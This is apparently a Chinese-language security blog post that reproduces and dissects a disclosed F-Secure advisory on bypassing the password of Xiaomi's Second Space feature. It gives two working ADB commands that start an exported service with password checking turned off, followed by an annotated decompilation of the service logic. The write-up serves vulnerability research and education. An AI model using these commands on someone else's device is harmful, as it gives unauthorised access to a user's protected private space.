 ```yaml
---
layout: post
title:  "REDMI 5 Plus Second Space Password Bypass"
date:   2020-06-10 18:00:00 +520
categories: Android_Application_Security
---
```


这个漏洞来自F-Secure实验室
- https://labs.f-secure.com/advisories/xiaomi-second-space

一句话描述就是：通过ADB命令启动一个Service就可以绕过小米Second Space的密码校验

我有一台Mix 2，刚好可以用于测试

Second Space的中文版本叫作`手机分身`

![](/assets/resources/DEC8A5C4B85CB1E7735AB3530F29BD12.jpg)

点击`开启手机分身`，会进入设置，两个密码，一个密码用于进入分身，一个密码用于回到主系统

这个漏洞的作用，就是让攻击者不需要密码，也可以进入分身，并且在主系统与分身之间自由切换

一共两条命令
```
➜ SECOND_USER=`adb shell pm list users | grep -o "{[0-9]*" | tr -d '{' | tail -n 1`
➜ adb shell am start-service --ez params_check_password False --ei params_target_user_id $SECOND_USER -a com.miui.xspace.TO_CHANGE_USER
```

第一条命令用于查询当前手机里的用户，`| grep -o "{[0-9]*" | tr -d '{' | tail -n 1`用于过滤出`11`这个字段
```
➜ adb shell pm list users
Users:
	UserInfo{0:机主:13} running
	UserInfo{11:security space:13} running
```

第二条命令可以说是最为关键，我们对其进行参数拆分
```
adb shell am start-service // 通过ADB命令启动Service
    --ez params_check_password False // boolean类型参数
    --ei params_target_user_id $SECOND_USER // int类型参数
    -a com.miui.xspace.TO_CHANGE_USER // 指定的Action
```

我们现在知道了这个Service响应的Action是`"com.miui.xspace.TO_CHANGE_USER"`

根据F-Secure的文章提示找到应用`com.miui.securitycore`

当然了，你想自己通过全局爆搜APK字符串也是可以的

这是实现Space切换的Service

![IMAGE](/assets/resources/EB405B9E46F294F27D622AED92854C57.jpg)

查看AndroidManifest文件的定义，有`<intent-filter>`默认导出
```
<service 
    android:name="com.miui.securityspace.service.SwitchUserService"
    android:permission="android.permission.INTERACT_ACROSS_USERS" 
    android:process="com.miui.securitycore.remote">
    <intent-filter>
        <action android:name="com.miui.xspace.TO_CHANGE_USER" />
    </intent-filter>
</service>
```

获取四个Intent字段后，调用`checkPasswordBeforeSwitch()`，`mTargetUserId`就是上文提到的`11`
```
public int onStartCommand(Intent intent, int arg7, int arg8) {
    this.mDelayTime = intent.getLongExtra("com.miui.xspace.preference_delay_time", 300);
    this.mFromType = intent.getStringExtra("com.miui.xspace.preference_from_type");
    this.mTargetUserId = intent.getIntExtra("params_target_user_id", -10000);
    this.mIsNeedcheckPassword = intent.getBooleanExtra("params_check_password", true);
    Log.d("SwitchUserService", "mTargetUserId: " + this.mTargetUserId);
    if(this.mTargetUserId != -10000) {
        this.checkPasswordBeforeSwitch(this.mTargetUserId);
    }

    this.stopSelf();
    return super.onStartCommand(intent, arg7, arg8);
}
```

`needCloseSdcardFs()`返回的固定值`0`，所以第一个`if`块不会进入，第二个`if`块有两个判断条件，`!mIsNeedcheckPassword`和`!isSecure()`，只需要满足其中一个就可以进入`if`块，而Poc中设置的`"params_check_password"`字段为`False`，所以这个`if`块就是我们关注的重点
```
private void checkPasswordBeforeSwitch(int mTargetUserId) {
    Intent intent;
    
    // private boolean needCloseSdcardFs(int arg2) { return 0; }
    if(this.needCloseSdcardFs(mTargetUserId)) {
        intent = new Intent(((Context)this), SdcardFsDialogActivity.class);
        intent.setFlags(0x10000000);
        this.startActivity(intent);
        return;
    }

    if(!this.mIsNeedcheckPassword || !SpaceManagerWrapper.getInstance().isSecure(mTargetUserId)) {
        int v1 = SpaceManagerWrapper.getInstance().switchUser(mTargetUserId);
        if(v1 == 0) {
            AnalyticsHelper.trackSwitchUser(mTargetUserId, this.mFromType);
        }
        else if(2 == v1) {
            ToastUtils.makeText(((Context)this), this.getResources().getString(0x7F09014B), 0).show(); // Can't switch between spaces during a call
        }
        else if(3 == v1) {
            ToastUtils.makeText(((Context)this), this.getResources().getString(0x7F09018B), 0).show(); // Switching to Second space is restricted by parental controls
        }
        else if(4 == v1) {
            ToastUtils.makeText(((Context)this), this.getResources().getString(0x7F0901CC), 0).show(); // Can't switch between spaces when Ultra battery saver is on
        }
    }
    else {
        intent = new Intent(((Context)this), SwitchUserConfirmActivity.class);
        intent.addFlags(0x10008000);
        intent.putExtra("preference_key_user_id", mTargetUserId);
        intent.putExtra("com.miui.xspace.preference_delay_time", this.mDelayTime);
        intent.putExtra("com.miui.xspace.preference_from_type", this.mFromType);
        this.startActivityAsUser(intent, new UserHandle(CrossUserUtils.getCurrentUserId()));
    }
}
```

这个`if`块的第一句代码就是调用`switchUser()`，一共有三个判断
```
public int switchUser(int mTargetUserId) {
    if(DeviceUtil.isPhoneCalling(this.mContext)) {
        Log.d("SpaceManagerWrapper", "Can\'t switch user to " + mTargetUserId + " when calling.");
        return 2;
    }

    if(MiuiSettings$Secure.isGreenKidActive(this.mContext.getContentResolver())) {
        Log.d("SpaceManagerWrapper", "Can\'t switch user to " + mTargetUserId + " when green kid active.");
        return 3;
    }

    if(MiuiSettings$System.isSuperSaveModeOpen(this.mContext, 0)) {
        Log.d("SpaceManagerWrapper", "Can\'t switch user to " + mTargetUserId + " when super power active.");
        return 4;
    }

    if(this.mSpaceManager.switchUser(mTargetUserId)) {
        return 0;
    }

    return 1;
}
```

第一个判断，如果当前有电话打进来或者正在接电话，不进行Space切换
```
CALL_STATE_STATE_IDLE = 0;
CALL_STATE_STATE_RUNNING = 1;
CALL_STATE_STATE_OFFHOOK = 2;

public static boolean isPhoneCalling(Context context) {
    boolean result = true;
    int callState = context.getSystemService("phone").getCallState();
    if(callState != 1 && callState != 2) {
        result = false;
    }

    return result;
}
```

第二个判断和第三个判断，有一点点棘手，因为它调用到了Framework代码，小米在这一层多了相当多的定制
```
import android.provider.MiuiSettings$Secure;
import android.provider.MiuiSettings$System;

if(MiuiSettings$Secure.isGreenKidActive(this.mContext.getContentResolver())) {
    Log.d("SpaceManagerWrapper", "Can\'t switch user to " + mTargetUserId + " when green kid active.");
    return 3;
}

if(MiuiSettings$System.isSuperSaveModeOpen(this.mContext, 0)) {
    Log.d("SpaceManagerWrapper", "Can\'t switch user to " + mTargetUserId + " when super power active.");
    return 4;
}
```

解析boot-framework.vdex，会获得三个cdex，再解析三个cdex文件为dex文件即可

![IMAGE](/assets/resources/C6FE99F25A99F5D480D2D8DF6827060C.jpg)

JEB分析一波，可以直接找到两个方法，正常情况下这两个方法都返回`false`，可以不用过多关注

![IMAGE](/assets/resources/6D15B242DBB968006CBF5027ACFA08A1.jpg)

最后就是切换Space啦
```
if(this.mSpaceManager.switchUser(mTargetUserId)) {
    return 0;
}
```

这后面又会调用到Framework的代码，咱们就不进行展开了

有生之年一定要认识一下F-Secure的大佬们，给大佬们一人带一双温州皮鞋穿穿